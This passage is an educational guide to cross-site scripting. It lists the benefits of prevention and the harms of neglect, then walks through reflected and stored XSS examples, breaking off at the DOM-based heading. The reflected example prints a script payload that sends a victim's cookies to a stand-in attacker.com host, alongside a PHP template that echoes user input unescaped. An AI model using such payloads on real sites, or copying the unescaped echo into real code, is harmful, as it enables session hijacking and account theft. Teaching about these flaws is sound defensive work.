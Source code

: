 ## Benefits of Preventing XSS

*   **User Trust:** Protects users from malicious attacks, maintaining their trust in the application.
*   **Data Integrity:** Prevents unauthorized access to and modification of user data.
*   **Reputation:** Safeguards the reputation of the application and the organization.
*   **Compliance:** Helps meet regulatory requirements for data security and privacy.

## Drawbacks if XSS is Not Handled

*   **Session Hijacking:** Attackers can steal session cookies and impersonate legitimate users.
*   **Data Theft:** Sensitive information like login credentials, personal details, and financial data can be stolen.
*   **Malware Distribution:** Users can be tricked into downloading malware.
*   **Account Takeover:** Attackers can gain full control over user accounts.
*   **Legal and Financial Consequences:** Data breaches can lead to lawsuits, fines, and significant financial losses.

## Use Cases and Examples

### Example 1: Reflected XSS in a Search Parameter

A website `example.com` has a search page: `https://example.com/search?query=searchTerm`
If `searchTerm` is directly rendered on the page:

```html
<!-- Server-side template (e.g., PHP, Node.js with a template engine) -->
<div>You searched for: <?php echo $_GET['query']; ?></div>
```

An attacker can craft a URL:
`https://example.com/search?query=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`

If a victim clicks this link, their browser executes the script, sending their cookies to the attacker's server.

### Example 2: Stored XSS in a Comment Section

A blog allows users to post comments. If comments are stored and displayed without sanitization:

```html
<!-- User posts a comment -->
<textarea name="comment"></textarea> <!-- User enters: <script>stealCredentials();</script> -->

<!-- Later, when displaying comments -->
<div class="comment">
  <p>[User's comment, e.g., <script>stealCredentials();</script>, gets rendered here]</p>
</div>
```
Any user viewing the page with this comment will execute the `stealCredentials()` script.

### Example 3: DOM-based XSS
